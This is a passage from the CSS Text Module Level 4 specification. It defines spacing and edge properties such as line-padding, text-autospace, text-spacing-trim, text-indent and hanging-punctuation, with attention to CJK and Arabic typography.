If it is able, the UA *may* apply letter spacing to cursive scripts by translating the total extra space to be distributed to a run of such letters into some form of cursive elongation (or compression, for negative tracking values) for that run that results in an equivalent total expansion (or compression) of the run. Otherwise, if the UA cannot expand text from a cursive script without breaking its cursive connections, it *must not* apply spacing between any pair of that script’s typographic letter units at all (effectively treating each word as a single typographic letter unit for the purpose of letter-spacing). Both cases will result in an effective spacing of zero between such letters; however the former will preserve the sense of stretching out the text.

> **Example:** Below are some appropriate and inappropriate examples of spacing out Arabic text.
>
> |  | — | Original text |
> | --- | --- | --- |
> |  | BAD | Even distribution of space between each letter. *Notice this breaks cursive joins!* |
> |  | OK | Distributing ∑*letter-spacing* by typographically-appropriate cursive elongation. *The resulting text is as long as the previous evenly-spaced example.* |
> |  | OK | Suppressing `letter-spacing` between Arabic letters. *Notice `letter-spacing` is nonetheless applied to non-Arabic characters (like spaces).* |
> |  | BAD | Applying `letter-spacing` only between non-joined letters. *This distorts typographic color and obfuscates word boundaries.* |

> **Note:** Proper cursive elongation or compression of a text can vary depending on the script, typeface, language, location within a word, location within a line, implementation complexity, font capabilities, and calligraphic preferences, and may not be possible in certain cases at all. It may involve the use of shortening ligatures, swash variants, contextual forms, elongation glyphs such as U+0640 ـ ARABIC TATWEEL, or other microtypography. It is outside the scope of CSS to define rules for these effects. Authors should avoid applying `letter-spacing` to cursive scripts unless they are prepared to accept non-interoperable results.

#### 8.3.  Line Start/End Padding: the `line-padding` property {#css-text-4:line-padding-property}

| Field | Value |
| --- | --- |
| Name: | **line-padding** |
| [Value:](#css-values-4:value-defs) | `<length>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | inline boxes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

Whereas `letter-spacing` adjusts spacing between typographic character units and does not apply at the start or end of a line, this property adjusts spacing only at the start/end of a line. The extra spacing is applied only by the *innermost* inline box at the start/end of the line box, and is inserted between that inline box’s content edge and the adjacent inline-level content (text *or* atomic inline). This extra space is not a justification opportunity.

> **Example:** Given the following HTML and CSS:
>
> ```
> p    { line-padding: 0.5em; line-height: 1; text-align: center }
> span { background: black; color: white; }
> em   { background: green; color: white; }
>
> <p><span>Here is <em>some text</em></span>
> ```
>
> Line-padding will be inserted such that an extra 0.5em of inline background will be visible on each side of each line. If it renders such that there is a break between “some” and “text”, the additional padding will be: on the first line, black on the left and green on the right, and on the second line, green on both sides.
>
> ```
> Here is some
> text
> ```

#### 8.4.  Automatic Contextual Spacing: the `text-autospace` property {#css-text-4:text-autospace-property}

| Field | Value |
| --- | --- |
| Name: | **text-autospace** |
| [Value:](#css-values-4:value-defs) | normal \| `<autospace>` \| auto |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Controls spacing between adjacent characters on the same line within the same inline formatting context using a set of character-class-based rules, allowing for automatic control over inter-script spacing and for spacing around punctuation. This property has no effect on the underlying content, and must not affect the content of a plain text copy & paste operation.

Values are defined as follows:

```css
<autospace> = no-autospace |
              [ ideograph-alpha || ideograph-numeric || punctuation ]
              || [ insert | replace ]
```

****normal****

: Same behavior as `ideograph-alpha ideograph-numeric`.

  This is the default behavior as well as the initial value: if `insert` or `replace` are specified on their own, `normal` is assumed.

****no-autospace****

: No automatic space is inserted.

****ideograph-alpha****

: Creates extra spacing between runs of ideographs and non-ideographic letters, see [§ 8.4.1 Inter-script Spacing](#css-text-4:inter-script-spacing).

****ideograph-numeric****

: Creates extra spacing between runs of ideographs and non-ideographic numerals, see [§ 8.4.1 Inter-script Spacing](#css-text-4:inter-script-spacing).

****punctuation****

: Creates extra non-breaking spacing around punctuation as required by language-specific typographic conventions.

  In this level, if the element’s content language is French, narrow no-break space (U+202F) and no-break space (U+00A0) is inserted where required by [French typographic guidelines](https://web.archive.org/web/20201112013601/http://unicode.org/udhr/n/notes_fra.html). Otherwise this value has no effect. However future specifications may add automatic spacing behavior for other languages.

****insert****

: The specified spacing is automatically inserted if there are no space characters of any kind (Unicode general category `Z`) already there.

  This is the default behavior: if neither `insert` nor `replace` are specified, `insert` is assumed.

****replace****

: The specified spacing is automatically inserted even if there is already a space (U+0020) at that point; additionally, the space (U+0020) is removed. Other types of space characters (Unicode general category `Z`) suppress automatic spacing, as for `insert`.

  > **Note:** This is for correcting text which is using the easy-to-type U+0020 instead of proper spacing.

****auto****

: The user agent chooses a set of typographically high quality spacing values. Different user agents running on different platforms may pick different values.

  > **Note:** These spacing values may or may not match OS platform conventions.

This property is additive with the `word-spacing` and `letter-spacing` properties. That is, the amount of spacing contributed by the `letter-spacing` setting (if any) is added to the spacing created by `text-autospace`. The same applies to `word-spacing`.

At element boundaries, the amount of extra spacing introduced between characters is determined by and rendered within the innermost element that contains the boundary.

##### 8.4.1.  Inter-script Spacing {#css-text-4:inter-script-spacing}

The `ideograph-alpha` and `ideograph-numeric` values introduce spacing at the boundary between particular classes of characters when they are directly adjoining on a line, i.e. without any intervening non-zero margin, border, or padding or intervening characters (such as a quotation mark or a space). The amount of space introduced by these keywords is 1/8 of the CJK advance measure, i.e `0.125ic` if the used value of `font-size` is same as its computed value.

> **Note:** Spacing conventions vary, but values typically range from 1/4ic to as low as 1/8ic, with 1/4ic being more common in historical contexts due to metal type limitations and 1/6ic or thinner being more common in proportional typesetting. Because these spaces are inserted by default (through the initial value, `normal`), CSS uses 1/8ic in order to be conservative in its interference. A future level of this module may introduce control over the amount of spacing.

In the context of the `text-autospace` property the following definitions apply:

> **Issue:** Classes and Unicode code points are under review, and at least some changes are needed to accommodate more recent additions to Unicode. [[Issue #9503]](https://github.com/w3c/csswg-drafts/issues/9503)

****ideographs****

: Includes all typographic character units [CSS-TEXT-3] whose base character is listed below:

  - All characters in the range of U+3041 to U+30FF, except those that belong to Unicode Punctuation [P*] general category.
  - CJK Strokes (U+31C0 to U+31EF).
  - Katakana Phonetic Extensions (U+31F0 to U+31FF).
  - All characters that have the Han extended script property.

****non-ideographic letters****

: Includes all typographic character units that belong to Unicode Letters [L*] and Mark [M*] general category, except when any of the following conditions are met:

  - is defined as ideograph.
  - is categorized as East Asian Wide (W) or Fullwidth (F) by [UAX11].
  - is upright in vertical text flow using the `text-orientation` property or the `text-combine-upright` property.

****non-ideographic numerals****

: Includes all typographic character units that belong to the Unicode Decimal Digit Number [Nd] general category, except when any of the following conditions are met:

  - is categorized as East Asian Fullwidth (F) by [UAX11].
  - is upright in vertical text flow using the `text-orientation` property or the `text-combine-upright` property.

##### 8.4.2.  Interaction with Bidirectional Text {#css-text-4:autospace-bidi}

Spacing introduced by `text-autospace` is inserted after [bidi reordering](#css-writing-modes-4:text-direction).

> **Example:** Given the following paragraphs, with capita:
>
> ```
> <p>一些中国字SOME RTL TEXT中国字
> <p>一些中国字SOME
>      RTL TEXT中国字
> <p>一些中国字SOME RTL♥中国字.
> <p>一些中国字<bdi dir=rtl>SOME RTL♥</bdi>中国字
> ```
>
> The expected rendering `ideographic-alpha` would be something like
>
> ```
> 一些中国字 TXET LTR EMOS 中国字
> 一些中国字 EMOS
> TXET LTR 中国字
> 一些中国字 LTR EMOS♥中国字.
> 一些中国字♥LTR EMOS 中国字
> ```

#### 8.5.  CJK Punctuation Spacing: the `text-spacing-trim` property {#css-text-4:text-spacing-trim-property}

| Field | Value |
| --- | --- |
| Name: | **text-spacing-trim** |
| [Value:](#css-values-4:value-defs) | `<spacing-trim>` \| auto |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `auto`, the keyword `trim-all`, or three keywords, one per controlled position (start, adjacent, end) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Typically, fullwidth characters have glyphs with the same advance width as a standard Han character (e.g. 水 U+6C34). However, many CJK punctuation glyphs only take up part of the fullwidth design space. Thus such punctuation are not always set fullwidth. The `text-spacing-trim` property allows the author to control when such characters are set trimmed (half-width) and when they are set spaced (full-width) based on their position and neighbors within the line, using a set of character-class-based rules.

Values are defined as follows:

```css
<spacing-trim> =
    [ trim-start | space-start | space-first ] ||
    [ trim-adjacent | space-adjacent ] ||
    [ trim-end | space-end | allow-end ]
    | trim-both | space-all | trim-all
```

These keywords set the spacing behavior when fullwidth punctuation occurs at the start, middle, and end of the line, with the last three keywords setting all three. Omitted values are taken from the set `trim-start trim-adjacent allow-end`, e.g. `trim-start trim-end` and `trim-end` are both equivalent to `trim-start trim-adjacent trim-end`.

|  | Line start | Between pairs | Line end |
| --- | --- | --- | --- |
| Spaced | `space-start` | `space-adjacent` | `space-end` |
| Trimmed | `trim-start` | `trim-adjacent` | `trim-end` |
| Mixed | `space-first` |  | `allow-end` |
| Initial Value (`normal`) | `space-start` | `trim-adjacent` | `allow-end` |
| Omitted Value Defaults | `trim-start` | `trim-adjacent` | `allow-end` |

****space-all****

: All fullwidth punctuation characters are set with full-width glyphs (spaced). Equivalent to `space-start space-adjacent space-end`.

****trim-both****

: All fullwidth punctuation characters are trimmed at the start and end of the line (flush), and adjacent pairs are collapsed (contextually kerned). Equivalent to `trim-start trim-adjacent trim-end`.

****normal****

: Equivalent to `space-start trim-adjacent allow-end`.

  > **Note:** This value uses `space-start` for compatibility reasons; a more “normal” behavior would use `trim-start` together with `allow-end` or `trim-end`.

****trim-start****

: Set fullwidth opening punctuation with half-width glyphs (flush) at the start of each line.

****space-start****

: Set fullwidth opening punctuation with full-width glyphs (spaced) at the start of each line.

****space-first****

: Set fullwidth opening punctuation with full-width glyphs (spaced) on the first line of the block container and each line after a forced line break. Otherwise as `space-start`.

  > **Note:** This value exists for compat requirements.
  >
  > This value exists to manage formatting of some existing Chinese and Japanese content, for which `trim-both` would have been appropriate typographically, except that they are already written to expect the first line to be set as for `space-all`.
  >
  > Specifically, due to the lack of reliable `hanging-punctuation` support across UAs, existing content (especially ePub content) uses U+3000 ideographic space in place of `text-indent`, but omits it when the paragraph begins with punctuation that is desired to hang in the indent in order to create the hanging punctuation effect. Using `trim-both` on the first line would thus trim away the effective indent in such content and thus obscure that line’s distinction as the first line of a new paragraph.
  >
  > Note that this typesetting practice of using ideographic spaces for indentation (sometimes and not always) is contrary to the separation of content and style offered by HTML and CSS. Using `hanging-punctuation` and `text-indent` to control paragraph formatting rather than tweaking the text content of the document preserves the text’s true semantics in the document source and allows the style sheet designer to freely switch among the various spacing/indentation styles without needing to alter the content. See [§ 8.5.4 Japanese Paragraph-start Conventions in CSS](#css-text-4:japanese-start-edges) for examples.
  >
  > Additionally, the behavior at the end of lines is aligned with the `normal` and `trim-start` values rather than `trim-both`, in that it only trims the glyphs if they do not otherwise fit prior to justification. While improving the typography in fewer cases, it is closer to the legacy behavior of `space-all` which reduces compatibility concerns.

****trim-adjacent****

: Collapse spacing between punctuation glyphs [as described below](#css-text-4:fullwidth-collapsing).

****space-adjacent****

: Set fullwidth punctuation with full-width glyphs (spaced) when not at the start or end of a line.

****trim-end****

: Set fullwidth closing punctuation with half-width glyphs (flush) at the end of each line.

****allow-end****

: Set fullwidth closing punctuation with half-width glyphs (flush) at the end of each line if it does not otherwise fit prior to justification, else set the punctuation with full-width glyphs.

****trim-all****

: Set fullwidth opening punctuation, fullwidth closing punctuation, and fullwidth middle dot punctuation with half-width glyphs, without regards for the position within the line nor for adjacent characters.

****auto****

: The user agent chooses a set of typographically high quality spacing values. Different user agents running on different platforms may pick different values.

  > **Note:** These spacing values may or may not match OS platform conventions.

  > **Issue:** Do we need `auto`? It would be weird for the author to choose platform-dependent behavior at the start of the first line, and it should otherwise use `trim-both`.

| Value | Line start | Between pairs | Line end | Elsewhere |
| --- | --- | --- | --- | --- |
| `space-all` | spaced |  |  |  |
| `normal` | spaced | [collapsed](#css-text-4:fullwidth-collapsing) | trim to fit | spaced |
| `space-start` |  |  |  |  |
| `space-first` | spaced first line, trim others |  |  |  |
| `allow-end` | trimmed |  |  |  |
| `trim-start` |  |  |  |  |
| `trim-both` | trimmed |  |  |  |
| `trim-all` | trimmed |  |  |  |
| `auto` | user-agent specific / platform dependent |  |  |  |

##### 8.5.1.  Setting Fullwidth Punctuation Spaced vs Trimmed {#css-text-4:fullwidth-kerning}

In order to set the text as specified by `text-spacing-trim`, the UA will need to either

- trim (kern) the blank half of the glyphs, if they are given full-width and must be set half-width, or
- add space to the glyphs, if they are given half-width and must be set full-width.

The UA *may* use the OpenType `halt` and `vhal` features if implemented by a font in order to perform the requisite trimming of a particular glyph. The UA *must not* use the `hwid` feature or otherwise substitute halfwidth forms as switching to halfwidth glyphs can change the glyph shape which is not acceptable here.

Some fonts use proportional glyphs for fullwidth punctuation characters. If there is no support in the font for distinguishing fullwidth vs halfwidth glyph shapes (e.g. through font features), then for such proportional glyphs, the given advance width is considered simultaneously full-width and half-width: the UA must not add or remove space to these glyphs.

> **Note:** The advance width of a standard Han character can be determined either from font metrics such as the OpenType `ideo` and `idtp` baselines for the opposite writing mode, or by taking the advance width of a Han character such as 水 U+6C34. (The opposite writing mode must be used because some fonts are compressed so that the characters are not square.) More information on OpenType metrics can be found [in the OpenType spec](https://docs.microsoft.com/en-us/typography/opentype/spec/baselinetags#ideoembox). Note that if 水 U+6C34, 卜 U+535C, and 一 U+4E00 do not all have the same advance width, the font has proportional ideographs and the fullwidth advance width cannot be reliably determined by measuring glyphs.

Some fonts have fullwidth punctuation characters whose blank are too small to trim (kern.) UA may choose not to trim (kern) when the UA determined the trimming (kerning) may cause glyph cut-offs, collisions, or excessive kerning through glyph bounding box, glyph metrics, or font features.

##### 8.5.2.  Fullwidth Punctuation Collapsing {#css-text-4:fullwidth-collapsing}

If `text-spacing-trim` is `trim-all`, the UA must trim the space typically associated with such full width glyphs regardless of the context in which they appear.

Otherwise, if **collapsing fullwidth punctuation** (`trim-adjacent`) (or the font has proportional fullwidth punctuation glyphs), the UA must collapse the space typically associated with such full width glyphs when placed adjacently on a line as follows:

- Set fullwidth opening punctuation half-width if the previous character is any of:

  - a fullwidth opening punctuation
  - a fullwidth middle dot punctuation
  - an ideographic space (U+3000)
  - a fullwidth closing punctuation of an equivalent or larger `font-size`
  - a character belonging to Unicode general category `Ps`

  Otherwise set it full-width.
- Set fullwidth closing punctuation half-width if the next character is any of:

  - a fullwidth closing punctuation
  - a fullwidth middle dot punctuation
  - an ideographic space (U+3000)
  - a fullwidth opening punctuation of a larger `font-size`
  - a character belonging to Unicode general category `Pe`

  Otherwise set it full-width.

> **Example:** The following example table lists the punctuation pairs affected by adjacent-pairs trimming. It uses halfwidth equivalents to approximate the trimming effect.
>
> | Combination | Sample Pair | Looks Like |
> | --- | --- | --- |
> | Opening—Opening | `〔`+`（` | `〔``(` |
> | Middle Dot—Opening | `・`+`（` | `・``(` |
> | Closing—Opening | `〕`+`（` | `〕``(` |
> | Ideographic Space—Opening | +`（` | `(` |
> | Closing—Closing | `）`+`〕` | `)``〕` |
> | Closing—Middle Dot | `）`+`・` | `)``・` |
> | Closing—Ideographic Space | `）`+ | `)` |

##### 8.5.3.  Text Spacing Trim Character Classes {#css-text-4:text-spacing-classes}

In the context of the `text-spacing-trim` property the following definitions apply:

> **Issue:** Classes and Unicode code points are under review, and at least some changes are needed to accommodate more recent additions to Unicode. [[Issue #9503]](https://github.com/w3c/csswg-drafts/issues/9503)

****fullwidth opening punctuation****

: Includes any opening punctuation character (Unicode category `Ps`) that belongs to the CJK Symbols and Punctuation block (U+3000–U+303F) or is categorized as East Asian Fullwidth (F) by [UAX11]. Also includes LEFT SINGLE QUOTATION MARK (U+2018) and LEFT DOUBLE QUOTATION MARK (U+201C). When trimmed, the left (for horizontal text) or top (for vertical text) half is kerned.

****fullwidth closing punctuation****

: Includes any closing punctuation character (Unicode category `Pe`) that belongs to the CJK Symbols and Punctuation block (U+3000–U+303F) or is categorized as East Asian Fullwidth (F) by [UAX11]. Also includes RIGHT SINGLE QUOTATION MARK (U+2019) and RIGHT DOUBLE QUOTATION MARK (U+201D). May also include fullwidth colon punctuation and/or fullwidth dot punctuation ([see below](#css-text-4:fullwidth-ambiguous)). When trimmed, the right (for horizontal text) or bottom (for vertical text) half is kerned.

****fullwidth middle dot punctuation****

: Includes MIDDLE DOT (U+00B7), HYPHENATION POINT (U+2027), and KATAKANA MIDDLE DOT (U+30FB). May also include fullwidth colon punctuation and/or fullwidth dot punctuation ([see below](#css-text-4:fullwidth-ambiguous)).

****fullwidth colon punctuation****

: Includes FULLWIDTH COLON (U+FF1A) and FULLWIDTH SEMICOLON (U+FF1B).

****fullwidth dot punctuation****

: Includes IDEOGRAPHIC COMMA (U+3001), IDEOGRAPHIC FULL STOP (U+3002), FULLWIDTH COMMA (U+FF0C), FULLWIDTH FULL STOP (U+FF0E).

Whether fullwidth colon punctuation and fullwidth dot punctuation should be considered fullwidth closing punctuation or fullwidth middle dot punctuation depends on where in the glyph’s box the punctuation is drawn. If the punctuation is centered, then it should be considered middle dot punctuation. If the punctuation is drawn to one side (left in horizontal text, top in vertical text) and the other half is therefore blank then the punctuation should be considered closing punctuation and trimmed accordingly.

The UA must classify fullwidth colon punctuation and fullwidth dot punctuation under either the fullwidth closing punctuation category or the fullwidth middle dot punctuation category as appropriate. The UA may rely on language conventions and the writing mode (horizontal vs. vertical), and/or font information to determine this categorization. The UA may also add additional characters to any category as appropriate.

> **Note:** The following informative table summarizes language conventions for classifying fullwidth colon and dot punctuation:
>
> |  | colon punctuation | dot punctuation |
> | --- | --- | --- |
> | Simplified Chinese (horizontal) | closing | closing |
> | Simplified Chinese (vertical) | closing | closing |
> | Traditional Chinese | middle dot | middle dot |
> | Korean | middle dot | closing |
> | Japanese | middle dot | closing |
>
> Note that for Chinese fonts at least, the author observes that the standard convention is often not followed.

##### 8.5.4.  Japanese Paragraph-start Conventions in CSS {#css-text-4:japanese-start-edges}

> **Example:** Japanese has three common start-edge typesetting schemes, which are distinguished by their handling of opening brackets.
>
> ![The first scheme aligns opening brackets flush with the indent edge on the first line and with the start edge of other lines. The second scheme gives the opening bracket its full width, so that it is effectively indented half an em from the indent edge and from the start edge of other lines. The third scheme aligns the opening brackets flush with the start edge of lines, but hangs them inside the indent on the first line (resulting in an effective half-em indent instead of the full em for paragraphs that begin with an opening bracket).](../css-text-4/images/opening-brackets-at-line-head.png)
>
> Positioning of opening brackets at line head [JLREQ]
>
> Assuming a UA style sheet of `p { margin: 1em 0; }`, CSS can achieve the Japanese typesetting styles with the following rules:
>
> - Brackets flush with indent, flush with other lines (first scheme):
>
>   ```
>   p { /* Flush alignment */
>   margin: 0;
>   text-indent: 1em;
>   text-spacing-trim: trim-both;
>   }
>   ```
> - Brackets preserve fullwidth spacing on all lines (second scheme):
>
>   ```
>   p { /* Fullwidth alignment */
>   margin: 0;
>   text-indent: 1em;
>   text-spacing-trim: space-all;
>   }
>   ```
> - Brackets hang in indent, flush with other lines (third scheme):
>
>   ```
>   p { /* Hanging alignment */
>   margin: 0;
>   text-indent: 1em;
>   text-spacing-trim: trim-both;
>   hanging-punctuation: first;
>   }
>   ```

#### 8.6.  Character Class Spacing Shorthand: the `text-spacing` property {#css-text-4:text-spacing-property}

| Field | Value |
| --- | --- |
| Name: | **text-spacing** |
| [Value:](#css-values-4:value-defs) | none \| auto \| `<spacing-trim>` \|\| `<autospace>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This property is a shorthand for setting `text-spacing-trim` and `text-autospace` in a single declaration. Values are defined as follows:

****none****

: Turns off all text-spacing features: sets `text-spacing-trim` to `space-all` and `text-autospace` to `no-autospace`.

****auto****

: Sets both `text-spacing-trim` and `text-autospace` to `auto`.

****`<spacing-trim>`****

: Sets `text-spacing-trim` to the specified value. If no `<autospace>` value is given, `text-autospace` is set to its initial value.

****`<autospace>`****

: Sets `text-autospace` to the specified value. If no `<spacing-trim>` value is given, `text-spacing-trim` is set to its initial value.

> **Note:** As `normal` is the initial value of both `text-spacing-trim` and `text-autospace`, `text-spacing: normal` resets both to their initial values.

#### 8.7.  Shaping Across Element Boundaries {#css-text-4:boundary-shaping}

Text shaping *must* be broken at inline box boundaries when any of the following are true for any box whose boundary separates the two typographic character units:

- Any of `margin`/`border`/`padding` separating the two typographic character units in the inline axis is non-zero.
- `vertical-align` is not its initial value; i.e. at least one of its longhands is not its initial value.
- The boundary is a bidi isolation boundary.

Text shaping *must not* be broken across inline box boundaries when there is no effective change in formatting, or if the only formatting changes do not affect the glyphs (as in applying [text decoration](#css-text-decor-4)).

Text shaping *should not* be broken across inline box boundaries otherwise, if it is reasonable and possible for that case given the limitations of the font technology.

> **Example:** An example of reasonable and possible shaping across boundaries is Arabic shaping: in many systems this is performed by the font engine, allowing the font to provide variant glyphs with potentially very sophisticated contextual shaping. It’s not generally possible to rely on this system across a font change unless the font engine has an API to provide context, but it is straightforward and therefore quite reasonable for an engine to work around this limitation by, for example, using the zero-width-joiner (U+200D) or zero-width-non-joiner (U+200C) as appropriate to solicit the correct choice of initial/medial/final/isolated glyph.
>
> An example of possible but not reasonable shaping across boundaries is handling a font that is sensitive to 20 characters of context on either side to choose its glyphs: passing all the text before *and after* the string in question, even through multiple inline boundaries with formatting changes, is complicated. The UA *could* handle such cases, but is not required to, as they are not typical or fundamentally required by any modern writing system.
>
> An example of impossible shaping across boundaries is a change in font weight partway through the word “and” in a font where a ligature would replace all three letters of the word “and” with an ampersand glyph (“&”).

### 9.  Edge Effects {#css-text-4:edge-effects}

Edge effects control the indentation of lines with respect to other lines in the block (`text-indent`) and how content is measured at the start and end edges of a line (`hanging-punctuation`).

#### 9.1.  First Line Indentation: the `text-indent` property {#css-text-4:text-indent-property}

| Field | Value |
| --- | --- |
| Name: | **text-indent** |
| [Value:](#css-values-4:value-defs) | [ `<length-percentage>` ] && hanging? && each-line? |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | refers to block container’s own inline-axis inner size |
| [Computed value:](#css-cascade-6:computed) | computed `<length-percentage>` value, plus any specified keywords |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies the indentation applied to lines of inline content in a block. The indent is treated as a margin applied to the start edge of the line box.

Unless otherwise specified by the `each-line` and/or `hanging` keywords, only lines that are the first formatted line of an element are affected. [CSS-PSEUDO-4] For example, the first line of an anonymous block box is only affected if it is the first child of its parent element.

Values have the following meanings:

****<length>****

: Gives the amount of the indent as an absolute length.

****<percentage>****

: Gives the amount of the indent as a percentage of the block container’s own logical width.

  Percentages must be treated as `0` for the purpose of calculating intrinsic size contributions, but are always resolved normally when performing layout.

  > **Note:** This can lead to the element overflowing. It is not recommended to use percentage indents and intrinsic sizing together.

****each-line****

: Indentation affects the first line of each block container and each line after a forced line break (but not lines after a soft wrap break).

****hanging****

: Inverts which lines are affected.

> **Example:** If `text-align` is `start` and `text-indent` is `5em` in left-to-right text with no floats present, then first line of text will start 5em into the block:
>
> ```
>      Since CSS1 it has been possible to
> indent the first line of a block element
> 5em by setting the 'text-indent' property 
> to '5em'.
> ```
>
> If we add the `hanging` keyword, then the first line will start flush, but other lines will be indented 5em:
>
> ```
> In CSS3 we can instead indent all other
>      lines of the block element by 5em
>      by setting the 'text-indent' property
>      to 'hanging 5em'.
> ```

> **Example:** Since the `text-indent` property only affects the “first formatted line”, a line after a forced break will not be indented.
>
> ```
>    For example, in the middle of
> this paragraph is an equation,
> which is centered:
>              x + y = z
> The first line after the equation
> is flush (else it would look like
> we started a new paragraph).
> ```
>
> However, sometimes (as in poetry or code), it is appropriate to indent each line that happens to be long enough to wrap. In the following example, `text-indent` is given a value of `3em hanging each-line`, giving the third line of the poem a hanging indent where it soft-wraps at the block’s right boundary:
>
> ```
> In a short line of text
> There need be no wrapping,
> But when we go on and on and on  
>    and on,
> Sometimes a soft break
> Can help us stay on the page.
> ```

> **Note:** Since the `text-indent` property inherits, when specified on a block element, it will affect descendant inline-block elements. For this reason, it is often wise to specify `text-indent: 0` on elements that are specified `display: inline-block`.

#### 9.2.  Hanging Glyphs {#css-text-4:hanging}

When a glyph at the start or end edge of a line **hangs**, it is not considered when measuring the line’s contents for fit, alignment, or justification. Depending on the line’s alignment/justification, this can result in the mark being placed outside the line box. The hanging glyph is also not taken into account when computing intrinsic sizes (min-content size and max-content size), and any sizes derived thereof. (The interaction of this measurement and kerning is currently UA-defined; the CSSWG [welcomes advice](https://github.com/w3c/csswg-drafts/issues/2397) on this point.)

A hanging glyph is still enclosed inside its parent inline box and still participates in text justification: its character advance is just not measured when determining how much content fits on the line, how much the line’s contents need to be expanded or compressed for justification, or how to position the content within the line box for text alignment. Effectively, the hanging glyph character advance is re-interpreted as an additional negative margin on the affected edge of its parent inline box; the line is otherwise laid out as usual.

An overflowing hanging glyph should typically be considered ink overflow so as to avoid creating unnecessary scrollbars, but the UA may treat it as scrollable overflow when the content is editable or in other circumstances where treating it as scrollable overflow would be useful to the user. [CSS-OVERFLOW-3]

In some cases, a glyph at the end of a line can **conditionally hang**: it hangs only if it does not otherwise fit in the line prior to justification. It is not considered when measuring the line’s contents for fit; however, any part of it that does not fit is considered to hang. Glyphs that conditionally hang are not taken into account when computing min-content sizes and any sizes derived thereof, but they are taken into account for max-content sizes and any sizes derived thereof.

When conditionally hangable glyphs at the end of the line are immediately preceded by (unconditionally) hangable glyphs, the unconditionally hangable glyphs hang if and only if all subsequent conditionally hangable glyphs do indeed hang; otherwise, the (unconditionally) hangable glyphs are effectively not at the end of the line and do not hang.

Non-zero inline-axis borders or padding between a hangable glyph and the edge of the line prevent the glyph from hanging. For example, a period at the end of an inline box with end padding does not hang at the end edge of a line.

Multiple adjacent glyphs can hang together, however specific limits on how many are allowed to hang may be specified (e.g. at most one punctuation character may hang at each edge of the line).

##### 9.2.1.  Hanging Punctuation: the `hanging-punctuation` property {#css-text-4:hanging-punctuation-property}

| Field | Value |
| --- | --- |
| Name: | **hanging-punctuation** |
| [Value:](#css-values-4:value-defs) | none \| [ first \|\| [ force-end \| allow-end ] \|\| last ] |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property determines whether a punctuation mark, if one is present, hangs and may be placed outside the line box (or in the indent) at the start or at the end of a line of text.

> **Note:** If there is not sufficient padding on the block container, `hanging-punctuation` can trigger overflow.

Values have the following meanings:

****none****

: No punctuation character is made to hang.

****first****

: An opening bracket, quote, or ideographic space at the start of the first formatted line of an element hangs. This applies to all characters in the Unicode categories Ps, Pf, Pi plus the ASCII quote marks U+0027 ' APOSTROPHE and U+0022 " QUOTATION MARK and the IDEOGRAPHIC SPACE U+3000.

****last****

: A closing bracket or quote at the end of the last formatted line of an element hangs. This applies to all characters in the Unicode categories Pe, Pf, Pi plus the ASCII quote marks U+0027 ' APOSTROPHE and U+0022 " QUOTATION MARK.

****force-end****

: A stop or comma at the end of a line hangs.

****allow-end****

: A stop or comma at the end of a line conditionally hangs.

At most one punctuation character may hang at each edge of the line.

**Stops and commas** allowed to hang include:

| U+002C | , | COMMA |
| --- | --- | --- |
| U+002E | . | FULL STOP |
| U+060C | ، | ARABIC COMMA |
| U+06D4 | ۔ | ARABIC FULL STOP |
| U+3001 | 、 | IDEOGRAPHIC COMMA |
| U+3002 | 。 | IDEOGRAPHIC FULL STOP |
| U+FF0C | ， | FULLWIDTH COMMA |
| U+FF0E | ． | FULLWIDTH FULL STOP |
| U+FE50 | ﹐ | SMALL COMMA |
| U+FE51 | ﹑ | SMALL IDEOGRAPHIC COMMA |
| U+FE52 | ﹒ | SMALL FULL STOP |
| U+FF61 | ｡ | HALFWIDTH IDEOGRAPHIC FULL STOP |
| U+FF64 | ､ | HALFWIDTH IDEOGRAPHIC COMMA |

The UA may include other characters as appropriate.

> **Note:** The CSS Working Group would appreciate if UAs including other characters would [inform the working group](#css-text-4:sotd) of such additions.

> **Example:** The `allow-end` and `force-end` are two variations of hanging punctuation used in East Asia.
>
> 
>
> ```
> p {
>   text-align: justify;
>   hanging-punctuation: allow-end;
> }
> ```
>
> 
>
> ```
> p {
>   text-align: justify;
>   hanging-punctuation: force-end;
> }
> ```
>
> The punctuation at the end of the first line for `allow-end` does not hang, because it fits without hanging. However, if `force-end` is used, it is forced to hang. The justification measures the line without the hanging punctuation. Therefore when the line is expanded, the punctuation is pushed outside the line.

